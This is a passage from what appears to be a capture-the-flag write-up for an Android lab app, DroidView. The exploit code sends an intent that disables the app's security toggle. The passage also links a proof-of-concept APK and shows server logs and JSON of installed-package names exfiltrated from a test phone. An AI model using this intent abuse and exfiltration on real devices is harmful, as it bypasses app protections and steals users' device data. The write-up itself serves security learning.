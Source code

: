 ```java
                open.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);  
                startActivity(open);  
  
                // very important, disable the toggle  
                new Handler().postDelayed(() -> {  
                    Intent toggle = new Intent("com.eightksec.droidview.TOGGLE_SECURITY");  
                    toggle.setComponent(new ComponentName("com.eightksec.droidview", "com.eightksec.droidview.MainActivity"));  
                    toggle.putExtra("enable_security", false);  
                    toggle.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK | Intent.FLAG_ACTIVITY_SINGLE_TOP);  
                    startActivity(toggle);  
                }, 1000);  
            });  
        }).start();  
    }  
}
```

**Download PoC**: https://lautarovculic.com/my_files/DroidViewExploit.apk

Notice that we *first send the application* list to our server **before** that send the *intent* to DroidView.

This is because **if we send the intent to DroidView first**, our app will be *in background*, and DroidView in *foreground*, and the *theft of packages names* will never happen in this order.

Put the *server* to run and then, *launch the application*. Remember change the IP server by your own.
```bash
python3 server.py
```
Output:
```HTTP
192.168.0.6 - - [31/Aug/2025 14:44:36] "POST /collect HTTP/1.1" 200 -
192.168.0.6 - - [31/Aug/2025 14:44:38] "GET / HTTP/1.1" 200 -
```

```json
{
  "INSTALLED_APPLICATIONS": 235,
  "hit": {
    "ts": "2025-08-31T17:43:33.255927Z",
    "remote_addr": "192.168.0.6",
    "ua": "Dalvik/2.1.0 (Linux; U; Android 11; Redmi Note 8 Build/RKQ1.201004.002)",
    "data": {
      "ip_ext": "local_exploit",
      "info": {},
      "apps": [
        "com.miui.screenrecorder",
        "com.lautarovculic.droidviewexploit",
        "com.qualcomm.qti.qcolor",
        "com.google.android.ext.services",
        "com.qualcomm.qti.improvetouch.service",
        "com.android.providers.telephony",
        "com.android.dynsystem",
        "com.miui.powerkeeper",
        "com.goodix.fingerprint",
        "com.xiaomi.miplay_client",
        "com.miui.fm",
        "com.android.providers.calendar"
        [...]
        [...]
        [...]
        [...]
        [...]
```